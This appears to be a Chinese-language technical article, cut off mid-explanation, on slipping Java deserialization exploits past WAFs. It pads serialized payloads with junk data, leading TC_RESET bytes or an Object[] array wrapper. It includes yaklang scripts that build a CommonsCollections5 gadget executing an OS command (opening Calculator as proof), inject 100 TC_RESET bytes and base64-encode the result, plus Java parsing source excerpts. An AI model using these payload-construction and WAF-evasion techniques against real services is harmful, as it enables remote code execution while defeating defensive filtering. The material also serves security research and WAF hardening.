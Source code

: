   
反序列化是从流中读取数据，当解析出一个完整对象就会结束反序列化流程。所以最简单暴力的方法就是直接append脏数据，但缺点是只能加到payload后，如果WAF只查前几个TCP报文，还是会被查。  
  
  
# **TC_RESET**  
   
  
在readObject0方法中看到这样一段代码  
```
byte tc;
while ((tc = bin.peekByte()) == TC_RESET) {
    bin.readByte();
    handleReset();
}
```  
这段代码可以理解为忽略所有TC_RESET，并调用handleReset，handleReset的作用是清空handle表，在序列化刚开始时清空handle表是没有影响的。这段代码运行在readObject0的开头，所以可以理解为忽略序列化数据前的所有TC_RESET  
  
使用yak编写一段脚本验证猜想，成功弹出计算器。  
```
serIns = yso.GetCommonsCollections5JavaObject("open /System/Applications/Calculator.app")~
payload = yso.ToBytes(serIns)~
dirtyData = ""
for range 100{
    dirtyData += "\x79"
}
res = string(payload[:4]) + dirtyData+ string(payload[4:])

println(codec.EncodeBase64(res))
```  
  
# **TC_ARRAY**  
  
  
readObject0的执行流程是先读对象类型，再根据类型采取不同的处理方式，如类型为ARRAY使用readArray处理。readArray的执行流程是，读classDesc，读长度，创建数组，根据数组长度，循环readObject读取数组元素。  
  
所以只要在payload前加一个array头就可以随便塞垃圾数据了，再将gadget作为最后一个元素，所以最终的payload类似这种：[]Object{null,null,null,........,gadget}  
  
在构造payload前需要准备一下：  
1. 构造classDesc  
  
用java代码生成一个序列化的Object[]对象:  
> rO0ABXVyABNbTGphdmEubGFuZy5PYmplY3Q7kM5YnxBzKWwCAAB4cAAAAAJwcA==  
  
编写yaklang脚本读取其中的classDesc  
```
objArrayIns = yso.GetJavaObjectFromBytes(codec.DecodeBase64("rO0ABXVyABNbTGphdmEubGFuZy5PYmplY3Q7kM5YnxBzKWwCAAB4cAAAAAJwcA==")~)~  
descSer = yso.ToBytes(objArrayIns.JavaSerializable.ClassDesc)~
```    
2. 数组长度  
  
这是java源码：  
```
public final int readInt() throws IOException {
    int ch1 = in.read();
    int ch2 = in.read();
    int ch3 = in.read();
    int ch4 = in.read();
    if ((ch1 | ch2 | ch3 | ch4) < 0)
        throw new EOFException();
    return ((ch1 << 24) + (ch2 << 16) + (ch3 << 8) + (ch4 << 0));
}
```  
  